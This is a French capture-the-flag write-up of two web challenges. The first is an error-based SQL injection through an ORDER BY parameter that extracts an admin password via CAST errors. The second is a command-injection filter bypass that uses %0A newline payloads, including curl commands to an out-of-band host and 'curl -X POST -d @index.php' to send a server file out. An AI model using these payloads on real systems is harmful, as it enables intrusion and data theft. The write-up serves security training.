La vulnérabilité repose sur une injection SQL dans la clause
`ORDER BY`.\
Le paramètre `order`, transmis via l'URL, est intégré directement dans
la requête SQL sans filtrage.

Une injection dans `ORDER BY` permet :

-   De provoquer des **erreurs SQL volontairement**.
-   D'injecter des **sous-requêtes SQL**.
-   D'afficher des données internes via un **CAST provoquant une
    erreur**.

Cette technique est appelée :\
 **Error‑Based SQL Injection**

------------------------------------------------------------------------

# Étapes de l'exploitation

## 1. Détection de la fonctionnalité vulnérable

Nous constatons la présence du paramètre :

    ?action=contents&order=ASC

Ce paramètre influence l'affichage → il est donc probablement utilisé
dans un `ORDER BY`.\
Nous décidons de tester ici notre injection.

------------------------------------------------------------------------

## 2. Premiers tests : `ASCX` puis `ASC,+1`

-   `ASCX` génère une erreur SQL → **injection confirmée**.
  

-   `ASC,+1` fonctionne → **la requête accepte une deuxième
    expression**.
  


Cela confirme que nous pouvons injecter des expressions additionnelles
dans le `ORDER BY`.

------------------------------------------------------------------------

## 3. Déterminer le nombre de colonnes

Tests successifs :

-   `ASC,+1` → OK\
-   `ASC,+2` → OK\

-   `ASC,+3` → erreur : « ORDER BY position 3 is not in select list »


Le SELECT retourne **2 colonnes**.

Cette étape valide que nous pouvons utiliser la deuxième position du
`ORDER BY` pour injecter des sous‑requêtes.

------------------------------------------------------------------------

## 4. Premier test de sous‑requête

Nous essayons :

    (SELECT table_name FROM information_schema.tables LIMIT 1)


Aucune erreur → mais aucune data visible.

Cela montre qu'il faut **provoquer une erreur SQL contrôlée** pour
afficher la donnée.

------------------------------------------------------------------------

## 5. Déclenchement volontaire d'erreur avec CAST

Nous injectons :

    CAST((SELECT table_name FROM information_schema.tables LIMIT 1) AS INTEGER)


La conversion échoue, ce qui révèle :

    "m3mbr35t4bl3"

 **Nous obtenons le nom de la table sensible.**

------------------------------------------------------------------------

## 6. Extraction des colonnes de la table

Nous parcourons `information_schema.columns`.

Notre injection :

    CAST((SELECT column_name FROM information_schema.columns LIMIT 1 OFFSET X) AS INTEGER)

Résultats :

-   OFFSET 0 → `id`


-   OFFSET 1 → `us3rn4m3_c0l`


-   OFFSET 2 → `p455w0rd_c0l`


Nous avons désormais le nom de la colonne du mot de passe.

Pourquoi utiliser OFFSET ?

`LIMIT 1` ne renvoie que le premier élément.\
`OFFSET` permet d'atteindre :

-   la 2e colonne → OFFSET 1\
-   la 3e colonne → OFFSET 2

C'est indispensable pour parcourir toutes les colonnes de la table.

------------------------------------------------------------------------

## 8. Extraction finale du mot de passe

Une fois la bonne colonne identifiée, nous injectons :

    CAST((SELECT p455w0rd_c0l FROM m3mbr35t4bl3 LIMIT 1) AS INTEGER)
    


Erreur obtenue :

    invalid input syntax for type double precision: "1a2BdKT5DIx3qxQN3UaC"

Le mot de passe admin apparaît dans l'erreur SQL.\

------------------------------------------------------------------------

#  Solution

Mettre le mot de passe "1a2BdKT5DIx3qxQN3UaC" dans la page authentification :


Le contenu de la page contents est désormais visible :


# Challenge 8 --- Command injection — Filter bypass

## 1. Objectif du challenge
Le challenge demande de prouver qu'on peut exécuter des commandes sur le serveur et récupérer une donnée sensible (ici le contenu d’un fichier `.passwd`). 
L’interface expose un paramètre `ip` qui est utilisé pour un `ping`. Le but est de contourner les protections/les filtres pour exfiltrer le fichier (index.php → .passwd → mot de passe).

## 2. Vulnérabilité : Command injection
La *command injection* survient lorsque l’application passe des données contrôlées par l’utilisateur à un interpréteur de commandes (shell) sans les neutraliser correctement. 
L’attaquant peut alors insérer des séparateurs/commandes qui seront interprétés et exécutés.

### Contexte technique probable
Le serveur exécute quelque chose du type :

```bash
# PHP-like pseudo
$cmd = "ping -c 2 " . $_GET['ip'];
system($cmd);
```

Si `$_GET['ip']` contient  `127.0.0.1; curl http://attacker`, alors le shell reçoit : `ping -c 2 127.0.0.1; curl http://attacker`

→ exécution des 2 commandes si le shell accepte le séparateur ; 


### Phase d'observation
- **Tester l'entrée normale** (`ip=127.0.0.1`) pour vérifier qu'une commande est effectivement exécutée
- Observer la réponse "Ping OK" qui confirme l'exécution côté serveur, mais la sortie est masquée.
- Il y a donc un canal d’exécution, mais il faudra exfiltrer via un canal externe (OAST) puisque la réponse ne retourne pas le résultat des commandes.

### Utilisation d'un outil OAST (Out-of-Band Application Security Testing)
- Si la sortie est masquée, utiliser un service OAST pour détecter l'exécution
- Services recommandés :
  - **Burp Collaborator** (intégré à Burp Suite)
  - **Interactsh** (outil utilisé)
 


### Tests de séparateurs de commandes
- Le **;** est le séparateur de commande classique en shell. Si **;** fonctionne, on peut chaîner des commandes.
- Tester les séparateurs simples : `;`, `&&`, `|`


→ **;** n’est pas bloqué au niveau de l’entrée. 
Mais attention : même si **;** passe, la commande suivante peut échouer si d’autres caractères (espaces, mots) sont filtrés.

### Tests d'exécution de commandes basiques
- Tenter d'exécuter des commandes simples : `cat`, `ls`, `curl`


→ Le serveur rejette l’expression : probablement parce que les espaces, certains mots-clés, ou une forme particulière de chaîne sont filtrés (ou parce que l’entrée est passée par un parser qui rejette certaines séquences).

**Conclusion :** `; cat index.php` ne passe pas directement.

### Tester curl :
- Tenter de tester 
Payload testé : `ip=127.0.0.1;curl http://burfmgxiiuvqxzqjxaeet88lp3emf7ixn.oast.fun`


L’idée est d’utiliser curl pour faire une requête vers notre domaine OAST et ainsi prouver exécution.

→ Comme pour cat, l’espace entre curl et l’URL ou d’autres caractères sont bloqués, rendant la tentative invalide.

### Recherche de contournements
- Utiliser des ressources comme [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings).
  
→ Trouver des séparateurs ou encodages alternatifs (ex : encodage URL, substitution, commentaires, newline, etc.).
Beaucoup de techniques ne passent pas ; il faut isoler ce qui est effectivement autorisé par le parser serveur.

### %0A
- %0A est le caractère LINE FEED (newline). Lorsque l’input est décodé puis passé au shell, un newline équivaut à terminer la ligne, ce qui en pratique démarre une nouvelle commande.
- Si %0A n’est pas filtré, on peut écrire une deuxième commande sur une nouvelle ligne, évitant l’espace bloqué dans la même ligne ou les artefacts du parser.
  
Traduction côté shell :
```bash
ping -c 2 127.0.0.1
<nouvelle ligne> commande_suivante
```

### Exécution de curl après %0A
Payload testé :
`ip=127.0.0.1%0acurl http://burfmgxiiuvqxzqjxaeet88lp3emf7ixn.oast.fun`


Une requête HTTP apparaît dans Interactsh (ou Burp Collaborator).


- Le newline a permis de commencer une commande sur une nouvelle ligne : curl http://....
- Le serveur exécute curl, qui provoque une requête sortante visible dans l’interface OAST.
  
→ Exécution de commande confirmée et canal d’exfiltration disponible.

### Tentative de lecture de index.php avec substitution (échec)
`ip=127.0.0.1%0acurl http://burfmgxiiuvqxzqjxaeet88lp3emf7ixn.oast.fun/``cat index.php``
Pas de réponse utile / aucun enregistrement avec le contenu attendu.
- Les backticks `...` ou la substitution de commandes sont probablement filtrés ou désactivés.
Ou bien la manière dont la commande est envoyée (par ex. via HTTP param) empêche l’interprétation de backticks.

### Trouver une méthode qui évite cat et backticks : curl -X POST -d @file
- **curl** accepte l’option `-d @file` qui fait que **curl lira le fichier localement côté serveur et enverra son contenu en POST.
- Cela évite d’avoir à appeler cat ou faire de la substitution.
`ip=127.0.0.1%0acurl -X POST -d @index.php http://burfmgxiiuvqxzqjxaeet88lp3emf7ixn.oast.fun`


→ Aucun backtick, pas de substitution, la seule « nouveauté » est le flag -d @file qui est interprété par curl, et curl lit le fichier localement.
→ Les espaces à l’intérieur de la commande curl -X POST -d @file sont acceptés car ils sont sur la nouvelle ligne et le parser ne les bloque pas dans ce contexte — la raison technique exacte dépend du filtre (parfois seul le paramètre GET est filtré d’une certaine façon, tandis que la ligne suivante est interprétée différemment).


  
